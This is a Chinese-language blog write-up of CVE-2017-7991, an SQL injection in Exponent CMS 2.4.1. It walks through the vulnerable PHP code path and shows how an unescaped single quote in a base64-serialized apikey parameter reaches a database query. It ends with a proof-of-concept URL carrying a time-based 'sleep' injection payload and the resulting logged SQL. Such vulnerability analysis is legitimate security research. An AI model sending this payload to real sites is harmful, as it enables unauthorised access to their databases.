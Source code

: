 ```yaml
---
title: '[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析'
date: 2017-05-12 07:42:07
tags: [代码审计,SQL注入,漏洞分析]
categories: Web安全
---
```


Exponent CMS是一款开源的CMS，其2.4.1版中存在sql注入
<!-- more -->
# 漏洞
注入点在 /framework/modules/eaas/controllers/eaasController.php 中。如下：

```php
public function api() {
	if (empty($this->params['apikey'])) {
		$_REQUEST['apikey'] = true;  // set this to force an ajax reply
		$ar = new expAjaxReply(550, 'Permission Denied', 'You need an API key in order to access Exponent as a Service', null);
		$ar->send();  //FIXME this doesn't seem to work correctly in this scenario
	} else {
		$key = expUnserialize(base64_decode(urldecode($this->params['apikey'])));
		$cfg = new expConfig($key);
		$this->config = $cfg->config;
		if(empty($cfg->id)) {
			$ar = new expAjaxReply(550, 'Permission Denied', 'Incorrect API key or Exponent as a Service module configuration missing', null);
			$ar->send();
		} else {
			if (!empty($this->params['get'])) {
				$this->handleRequest();
			} else {
				$ar = new expAjaxReply(200, 'ok', 'Your API key is working, no data requested', null);
				$ar->send();
			}
		}
	}
}
```

api()中，先检测参数`apikey`　是否为空，若不为空，则进入else分支。在分支中，先对参数`apikey`进行一次`urldecode`,接着进行 `base64_decode`,最后进行一次反序列化`expUnserialize`，在`expUnserialize`中存在一次小小的过滤：
```php
function expUnserialize($serial_str) {
    if ($serial_str === 'Array') return null;  // empty array string??
    if (is_array($serial_str) || is_object($serial_str)) return $serial_str;  // already unserialized
//    $out1 = @preg_replace('!s:(\d+):"(.*?)";!se', "'s:'.strlen('$2').':\"$2\";'", $serial_str );
    $out = preg_replace_callback(
        '!s:(\d+):"(.*?)";!s',
        create_function ('$m',
            '$m_new = str_replace(\'"\',\'\"\',$m[2]);
            return "s:".strlen($m_new).\':"\'.$m_new.\'";\';'
        ),
        $serial_str );
//    if ($out1 !== $out) {
//        eDebug('problem:<br>'.$out.'<br>'.$out1);
//    }
```

它会把 经过`base64_decode`后的`$apikey` 中的双引号加上斜杠。但是对于单引号，它没有进行处理。在进行`expUnserialize`之后，赋值给`$key`，并在之后实例化一个 `expConfig`对象。`expConfig`部分代码如下：

```php
class expConfig extends expRecord {
	protected $table = 'expConfigs';

	function __construct($params=null) {
		global $db;

        if (!is_array($params)) {
            $this->location_data = serialize($params);
            parent::__construct($db->selectValue($this->table, 'id', "location_data='".$this->location_data."'"));
        } else {
            parent::__construct($params);
        }
	....
```
在 framysqli\core\subsystems\database\mysqli.php 中，可以看到关于`selectValue`的定义：

```php
function selectValue($table, $col, $where=null) {
	if ($where == null)
		$where = "1";
	$sql = "SELECT " . $col . " FROM `" . $this->prefix . "$table` WHERE $where LIMIT 0,1";
	$res = @mysqli_query($this->connection, $sql);

	if ($res == null)
		return null;
	$obj = mysqli_fetch_object($res);
	if (is_object($obj)) {
		return $obj->$col;
	} else {
		return null;
	}
}
```

可以看到，在检查完`$params`是否是数组后，将我们传入的`$params`序列化后直接插入到了数据库查询语句中,未作任何过滤和检测。加上之前并未对单引号进行处理，因此我们可以利用单引号，对 `location_data='".$this->location_data."'` 中的单引号进行闭合。


# POC

```
http://localhost:2500/exponent241/index.php
?module=eaas
&action=api
&apikey=czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7
```
其中 base64_decode("czoxNjoiYWFhJ29yIHNsZWVwKDIpIyI7") = s:16:"aaa'or "'sleep(2)#

查看 mysql.log ，可以发现成功注入。
![](https://github.com/CHYbeta/chybeta.github.io/blob/master/images/pic/20170512/sqlinject/1.jpg?raw=true)
运行的 sql语句 为：

```mysql
SELECT id FROM `exponent_expConfigs` WHERE location_data='s:19:"aaa'or \"'sleep(2)#";' LIMIT 0,1
```
可以看到单引号被成功闭合。



本文首发于[[CVE-2017-7991]Exponent CMS 2.4.1 SQL Injection分析](https://chybeta.github.io/2017/05/12/CVE-2017-7991-Exponent-CMS-2-4-1-SQL-Injection%E5%88%86%E6%9E%90/)